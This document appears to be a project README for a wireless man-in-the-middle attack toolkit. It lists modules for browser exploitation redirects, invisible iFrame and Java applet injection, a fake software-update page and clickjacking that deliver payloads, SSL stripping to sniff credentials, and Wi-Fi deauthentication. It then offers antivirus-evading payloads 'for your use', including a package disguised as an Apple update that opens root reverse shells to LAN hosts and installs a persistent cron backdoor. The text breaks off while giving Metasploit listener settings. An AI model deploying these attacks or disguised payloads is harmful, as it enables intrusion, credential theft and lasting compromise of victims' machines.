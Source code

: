 <br>
<h2>Included Attack Vector Modules</h2>
<ul><li>browserPwn - Redirect LAN to Metasloits auxillary module browser_autopwn. This will be detected by AV.<br>
<blockquote>- Victim Support: Mac OSX, Windows, Linux.<br>
- Requirements: Metasploit, DNSSpoof Infusion<br></blockquote></li></ul>

<ul><li>browserPwn iFrame - Inject an invisible iFrame that loads Metasloits auxillary module browser_autopwn. This will be detected by AV.<br>
<blockquote>- Victim Support: Mac OSX, Windows, Linux.<br>
- Requirements: Metasploit, Strip-N-Inject Infusion<br></blockquote></li></ul>

<ul><li>Fake Update - Redirect LAN to a realistic fake update page with a <a href='custom.md'>custom</a> payload download.<br>
<blockquote>- Victim Support: Mac OSX, Windows.<br>
- Requirements: Metasploit, DNSSpoof Infusion <br></blockquote></li></ul>

<ul><li>Click Jacking - Hijack the entire DOM with an injected <code>&lt;div&gt;</code>. No matter where you click, it downloads a payload.<br>
<blockquote>- Victim Support: Mac OSX, Windows.<br>
- Requirements: Metasploit, Strip-N-Inject Infusion <br></blockquote></li></ul>

<ul><li>Java Applet Injection - Transparently inejcts an OS agnostic java applet into the victims browsing session.<br>
<blockquote>- Victim Support: Mac OSX, Windows, Linux.<br>
- Requirements: Metasploit, Strip-N-Inject Infusion <br></blockquote></li></ul>

<ul><li>Java Applet Redirect - Redirects users to a Java page with an OS agnostic java applet payload.<br>
<blockquote>- Victim Support: Mac OSX, Windows, Linux.<br>
- Requirements: Metasploit, DNSSpoof Infusion <br></blockquote></li></ul>

<ul><li>SSLStrip - Remove SSL from the victims connections and sniff credentials.<br>
<blockquote>- Victim Support: Mac OSX, Windows, Linux.<br>
- Requirements: SSLStrip Infusion <br></blockquote></li></ul>

<ul><li>Aireplay-ng - DoS APs and try to make them join yours via custom aireplay-ng script.<br>
<blockquote>- This script will run aireplay-ng against the AP broadcast, note that this works best if you are closer to the AP than the client</blockquote></li></ul>

<ul><li>MDK3 - Deauths nearby clients from their APs and try to make them join yours via MDK3.<br>
<blockquote>- This script will run MDK3 to deauthenticate clients from an AP directly note that this works best if you are close to the clients. As a result, this will have slightly better average range effectiveness.</blockquote></li></ul>

<h2>Included Payloads (w/ Source & Documentation)</h2>
I have included 2 of my most successful and efficient payloads for your use. One for Mac OSX, and one for Windows - both will completely bypass signature based anti-virus and most behavioral HIPS as well.<br>
<br>
<br>
<b>Apple_MacOSX_Update.pkg</b>
<br>
Description: This is 4 lines of BASH stuck in an apple postinstall script. No signature AV can ever detect this because it uses system commands and contains no binaries in the package.<br>
<br>
This will spawn 2 root shells to the following addresses:<br>
172.16.42.2 6446<br>
172.16.42.3 6446<br>
<br>
Persistence:<br>
It will also add a persistent backdoor that will spawn these 2 every 3 minutes (sudo crontab -<br>
<br>
Metasploit Listener:<br>
<pre><code>set PAYLOAD generic/shell_reverse_tcp
<br>
set LHOST 0.0.0.0
<br>